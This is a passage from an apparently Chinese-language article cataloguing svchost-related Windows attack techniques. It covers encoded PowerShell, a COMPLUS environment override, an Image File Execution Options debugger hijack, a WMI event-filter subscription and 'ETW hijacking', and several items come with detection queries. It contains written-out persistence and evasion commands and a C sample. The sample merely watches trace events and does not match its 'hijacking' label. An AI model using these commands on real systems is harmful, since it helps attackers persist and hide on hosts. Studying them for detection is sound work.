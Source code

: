 
 **19\. PowerShell Injection**

 ** **说明:  ****通过svchost注入PowerShell命令

  * 

    
    
    powershell -encodedCommand [Base64Code]

 **20\. 环境变量覆盖(Environment Variable Override)**

  *   *   * 

    
    
     set COMPLUS_Version=v4.0.30319 && svchost.exe  
    process.name: "cmd.exe" AND process.args: "set" AND process.args: "COMPLUS_Version"

 **21\. 映像文件执行选项注入**

  *   *   * 

    
    
     reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\svchost.exe" /v Debugger /t REG_SZ /d "malicious.exe"  
    process.name: "reg.exe" AND process.args: "Image File Execution Options" AND process.args: "svchost.exe"

 **22\. WMI事件订阅**

  * 

    
    
     wmic /namespace:\\root\subscription PATH __EventFilter CREATE Name="evilFilter", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"

 **23\. ETW Hijacking**

 **说明:**
Windows事件跟踪(ETW)是Windows提供的一个功能强大的跟踪工具，用于记录和监视系统和应用程序的行为。ETW提供者是生成要跟踪的事件的组件。劫持或滥用ETW提供程序可以允许攻击者监视特定事件，从而潜在地了解系统行为或用户操作。

  * 

    
    
    etw_hijack.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <evntcons.h>#include <evntrace.h>  
    // Callback for processing eventsvoid WINAPI EventRecordCallback(EVENT_RECORD* pEventRecord) {    if (pEventRecord->EventHeader.EventDescriptor.Id == 10 /* Process Start Event ID */) {        // Extract process name and check if it's svchost.exe        // This is a simplification; in a real-world scenario, you'd need to parse the event data        if (strstr((char*)pEventRecord->UserData, "svchost.exe")) {            printf("svchost.exe started!\n");        }    }}  
    int main() {    TRACEHANDLE hTrace = 0;    EVENT_TRACE_LOGFILE traceLog = { 0 };    traceLog.LoggerName = KERNEL_LOGGER_NAME;    traceLog.ProcessTraceMode = PROCESS_TRACE_MODE_REAL_TIME;    traceLog.EventRecordCallback = (PEVENT_RECORD_CALLBACK)EventRecordCallback;  
        hTrace = OpenTrace(&traceLog);    if (hTrace == INVALID_PROCESSTRACE_HANDLE) {        printf("Failed to open trace.\n");        return 1;    }  
        ULONG status = ProcessTrace(&hTrace, 1, 0, 0);    if (status != ERROR_SUCCESS) {        printf("Failed to process trace.\n");        CloseTrace(hTrace);        return 1;    }  
        CloseTrace(hTrace);    return 0;}
